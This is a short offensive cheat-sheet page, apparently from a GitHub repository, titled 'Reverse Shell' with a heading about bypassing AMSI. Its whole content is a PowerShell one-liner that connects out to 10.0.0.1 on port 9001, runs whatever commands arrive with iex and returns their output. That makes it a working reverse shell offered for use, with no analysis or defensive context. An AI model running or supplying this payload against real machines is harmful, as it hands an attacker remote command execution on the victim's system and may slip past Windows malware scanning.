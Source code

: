 # Reverse Shell

## Reverse Shell

### One liner

#### bypass amsi

```csharp
$test=[text.encoding]::ASCII;$sm=(New-Object Net.Sockets.TCPClient('10.0.0.1',9001)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=($test).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```




